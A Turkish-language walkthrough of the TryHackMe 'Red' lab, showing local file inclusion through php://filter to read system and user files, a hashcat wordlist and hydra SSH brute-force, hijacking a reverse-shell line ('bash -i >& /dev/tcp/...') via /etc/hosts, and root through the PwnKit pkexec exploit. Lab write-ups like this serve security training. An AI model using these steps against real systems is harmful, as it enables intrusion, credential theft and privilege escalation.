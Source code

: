 ```yaml
---
title: 'TryHackMe | Red WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [lfi]
render_with_liquid: false
media_subpath: /images/tryhackme_red/
image:
  path: logo.webp
---
```


## Özet
Web uygulamasında bulunan "Local File Inclusion" zafiyetinden yararlanarak "blue" kullanıcısının dizinideki gizli dosyayı keşfedeceğiz. Bu dosyadaki yönergeleri takip ederek bir parola listesi oluşturacak ve bu parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapacağız. Sonucunda elde ettiğimiz parolayı kullanarak SSH servisine bağlanacak ve yetki yükseltmek için bir takım kontroller yapacağız. Arka planda çalışan bağlantıyı fark ettikten sonra domain'in IP adresini değiştirecek ve bağlantıyı kendi makinemize yönlendireceğiz. Sonrada zafiyetli pkexec uygulamasını fark edecek ve internette bulduğumuz bir sömürü aracını kullanarak yetki yükselteceğiz.

## Makine hakkında ek bilgiler

- Makineye bağlanan kullanıcıların bağlantıları sonlandırılıp, parolaları değiştiriliyor.
- Odağımızı bozacak mesajlar ile karşılaşabiliriz.

## Keşif aşaması

### Nmap Taraması

```console
$ nmap -sV -sC -T4 10.10.35.115
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Bulgular

- Web uygulaması hazır web teması içeriyor.
- Tema sayfaları index.php dosyasına gönderilen "page" parametresi ile sayfaya dahil ediliyor.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan hazır tema düzenlenmemiş gibi duruyor. "page" parametresinin aldığı değeri /etc/passwd ve türevleri olacak şekilde değiştirdiğimde her seferinde home.html sayfasına yönlendiriyor. Sistemde bulunan dosyaları görüntüleyebilmek için parametreye "php://filter/convert.base64-encode/resource=/etc/passwd" şeklinde bir değer girdiğimde ise base64 ile kodlanmış olarak dosya içeriğini okuyabiliyorum.

## Sömürü Aşaması

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d                                                                          
root:x:0:0:root:/root:/bin/bash
...
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

Sistemde root haricinde "red" ve "blue" olmak üzere iki kullanıcı var. "blue" kullanıcısının dizinindeki .bash_history isimli dosyayı kontrol ettiğimizde, aynı dizindeki .reminder dosyasında bulunan bir metni kullanarak hashcat ile belli kurallar dahilinde bir parola listesi oluşturduğunu görüyoruz.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

".reminder" isimli dosyanın içeriği aşağıdaki şekildedir.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder | base64 -d
sup3r_p@s$w0rd!
```

Red kullanıcısının blue kullanıcısı için oluşturduğu parola listesini aynı komutu kullanarak oluşturalım.

```console
$ nano .reminder
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Daha sonra elde ettiğimiz parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapalım.

```console
$ hydra -l blue -P passlist.txt ssh://10.10.35.115
[DATA] attacking ssh://10.10.35.115:22/
[22][ssh] host: 10.10.35.115   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 04:28:00
```

Elimizdeki kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra bulunduğumuz dizinde ilk bayrağı görüyoruz.

```console
blue@red:~$ ls
flag1
blue@red:~$ cat flag1 
THM{***?}
```

Başta belirtiğim gibi ara ara bağlantı sonlandırılıyor ve parola değiştiriliyor. Aynı parola listesini kullanarak tekrar tekrar deneme yanılma saldırısı yapmanız gerekebilir.

## Yetki yükseltme

### Red

"ps aux" komutunu kullandığımda arka planda red kullanıcısının redrules.thm adresinin 9001 portuna bağlandığını gördüm.

```console
blue@red:/var/backups$ ps aux
...
red         2557  0.0  0.0   6972  2496 ?        S    08:31   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red         2582  0.0  0.0   6972  2692 ?        S    08:32   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
root        2593  0.0  0.0      0     0 ?        I    08:32   0:00 [kworker/u30:1-events_unbound]
red         2628  0.0  0.0   6972  2696 ?        S    08:33   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

/etc/hosts dosyasına domain ile beraber makinemizin IP adresini girdikten bir süre sonra red kullanıcısının adına bir bağlantı alıyorum. Dosyayı temizlediği için bu işlemi bağlantı alana kadar bir kaç kez tekrar etmeniz gerekebilir.

![](2.webp){: width="1200" height="600" }

Bağlantı geldikten sonra kendi dizininden ikinci bayrağı alıyorum.

```console
red@red:~$ cat flag2 
THM{***}
```

### Root

/home/red/.git/ dizini içerisinde "pkexec" adında bir dosya bulunuyor. Bu dosyaya SUID izni verilmiş ve zafiyetli bir sürümü kullanılıyor.

```console
red@red:~/.git$ ls -la
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

Adını ve sürümünü internette arattıktan sonra [bu](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) sayfa ile karşılaştım. Verilen c kodlarını düzenleyip kayıt ettikten sonra derledim. Çalıştırdıktan sonra ise doğrudan root yetkisine sahip oluyor ve üçüncü bayrağı almak için /root dizine yöneliyorum.

```console
red@red:~/.git$ ls
CVE-2021-4034.py  pkexec
red@red:~/.git$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(red) groups=1001(red)
# cd /root
# ls
defense  flag3  snap
# cat flag3
THM{***}
```

